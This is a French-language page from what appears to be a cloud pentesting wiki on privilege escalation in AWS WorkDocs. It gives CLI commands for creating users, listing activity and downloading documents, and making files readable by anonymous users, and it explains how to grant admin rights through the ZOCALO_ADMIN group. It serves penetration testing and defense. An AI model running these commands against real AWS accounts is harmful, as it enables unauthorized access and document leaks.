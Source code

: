 # AWS - Élévation de privilèges WorkDocs

## WorkDocs

Pour plus d'informations sur WorkDocs, consultez :

{% content-ref url="../aws-services/aws-directory-services-workdocs-enum.md" %}
[aws-directory-services-workdocs-enum.md](../aws-services/aws-directory-services-workdocs-enum.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

Créez un utilisateur dans le répertoire indiqué, puis vous aurez accès à la fois à WorkDocs et à AD :
```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```
### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

Les fichiers pourraient contenir des informations sensibles, lisez-les :
```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```
### `workdocs:AddResourcePermissions`

Si vous n'avez pas accès pour lire quelque chose, vous pouvez simplement l'accorder
```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```
### `workdocs:AddUserToGroup`

Vous pouvez rendre un utilisateur administrateur en le plaçant dans le groupe ZOCALO_ADMIN.\
Pour cela, suivez les instructions sur [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html)

Connectez-vous avec cet utilisateur dans workdoc et accédez au panneau d'administration dans `/workdocs/index.html#/admin`

Je n'ai pas trouvé de moyen de faire cela depuis l'interface de ligne de commande.
